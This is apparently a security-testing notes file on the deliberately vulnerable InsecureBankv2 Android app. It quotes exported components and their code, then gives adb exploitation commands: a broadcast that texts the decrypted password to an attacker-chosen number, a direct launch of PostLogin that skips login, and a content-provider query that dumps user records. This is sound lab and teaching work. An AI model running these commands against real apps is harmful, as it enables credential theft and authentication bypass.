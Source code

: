- [Manifest](#Mainfest)
  - [Debug Mode](#Debug)
  - [Backup](#Backup)
- [Broadcast Receiver](#BroadcastReceiver)
  - [Broadcast Receiver Discription](#Broadcast_receiver_description)
  - [Exported Broadcast Receiver](#Exported_broadcast_receiver)
    - [Broadcast Receiver AndroidManifest declaration](#BR_AndroidManifest.xml)
    - [Broadcast Receiver method code implementation](#BR_method_code)
    - [ADB Broadcast Receiver exploitation](#adb_BR_exploitaion)
- [Activity](#Activity)
  - []()
  - []()
  - [Exported Activity Bypassing](#Exported_activity_bypassing)
    - [Manifset](#Manifset)
- [Content Provider](#Content_provider)
  - [Content Provider Discription](#Content_Provider_Discription)
  - [Exported Content Provider](#Exported_content_provider)
    - [Content Provider AndroidManifest declaration](#CP_BR_AndroidManifest.xml)
    - [Content Provider method code implementation](#CP_method_code)
    - [ADB Content Provider exploitation](#adb_CP_exploitaion)
# Manifest

## Debug

## Backup
------------------------------------------------------------------------------------------------------------------------
# BroadcastReceiver

## Broadcast_receiver_description
Broadcast receivers are designed to listen to system wide events called broadcasts (e.g. network activity, application updates, etc.) and then trigger something if the broadcast message matches the current parameters inside the Broadcast Receiver

## Exported_broadcast_receiver

### BR_AndroidManifest.xml
```
<receiver android:name="com.android.insecurebankv2.MyBroadCastReceiver" android:exported="true">
            <intent-filter>
                <action android:name="theBroadcast"/>
            </intent-filter>
        </receiver>
```
### BR_method_code
```
public void onReceive(Context context, Intent intent) {
        String phn = intent.getStringExtra("phonenumber");
        String newpass = intent.getStringExtra("newpass");
        if (phn != null) {
            try {
                SharedPreferences settings = context.getSharedPreferences("mySharedPreferences", 1);
                this.usernameBase64ByteString = new String(Base64.decode(settings.getString("EncryptedUsername", null), 0), "UTF-8");
                String decryptedPassword = new CryptoClass().aesDeccryptedString(settings.getString("superSecurePassword", null));
                String textPhoneno = phn.toString();
                String textMessage = "Updated Password from: " + decryptedPassword + " to: " + newpass;
                SmsManager smsManager = SmsManager.getDefault();
                System.out.println("For the changepassword - phonenumber: " + textPhoneno + " password is: " + textMessage);
                smsManager.sendTextMessage(textPhoneno, null, textMessage, null, null);
            } catch (Exception e) {
                e.printStackTrace();
            }
        } else {
            System.out.println("Phone number is null");
        }
    }
```
### adb_BR_exploitaion
```
am broadcast -a theBroadcast -n com.android.insecurebankv2/com.android.insecurebankv2.MyBroadCastReceiver –es phonenumber 0123456789 –es newpass Test_pass123!
```
-------------------------------------------------------------------------------------------------------------------------------
# Activity

## Exported_activity_bypassing

### Manifset
```
<activity android:label="@string/title_activity_post_login" 
android:name="com.android.insecurebankv2.PostLogin" android:exported="true"/>

Bypassing: adb shell am start -n com.android.insecurebankv2/com.android.insecurebankv2.PostLogin
```
-------------------------------------------------------------------------------------------------------------------------------
# Content_Provider

## Content_Provider_Discription
Content providers are used to share app data with other applications, which is normally stored inside a database or file.

## Exported_content_provider

### CP_BR_AndroidManifest.xml
```
provider android:name="com.android.insecurebankv2.TrackUserContentProvider" android:exported="true" android:authorities="com.android.insecurebankv2.TrackUserContentProvider"/>
```
### CP_method_code
```
static final String URL = "content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers";
static final String name = "name";
```
### adb_CP_exploitaion
```
content query --uri content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers    
```
